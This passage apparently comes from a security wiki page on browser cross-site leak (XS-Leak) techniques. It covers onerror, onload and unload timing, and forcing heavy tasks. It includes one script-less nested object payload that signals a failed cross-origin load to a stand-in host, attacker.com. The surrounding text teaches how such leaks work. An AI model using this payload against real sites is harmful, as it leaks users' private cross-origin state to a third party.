 {% content-ref url="xs-search/cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](xs-search/cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

* **Inclusion Methods**: HTML Elements
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Summary:** The \*\*\*\* [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** can be used to measure how much time it takes to perform a request. However, other clocks could be used, such as [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) which can identify tasks running for more than 50ms.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) another example in:

{% content-ref url="xs-search/performance.now-example.md" %}
[performance.now-example.md](xs-search/performance.now-example.md)
{% endcontent-ref %}

#### Onload Timing + Forced Heavy Task

This technique is just like the previous one, but the **attacker** will also **force** some action to take a **relevant amount time** when the **answer is positive or negative** and measure that time.

{% content-ref url="xs-search/performance.now-+-force-heavy-task.md" %}
[performance.now-+-force-heavy-task.md](xs-search/performance.now-+-force-heavy-task.md)
{% endcontent-ref %}

### unload/beforeunload Timing

* **Inclusion Methods**: Frames
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Summary:** The [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers) can be used to measure how much time it takes to perform a request. Other clocks could be used.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
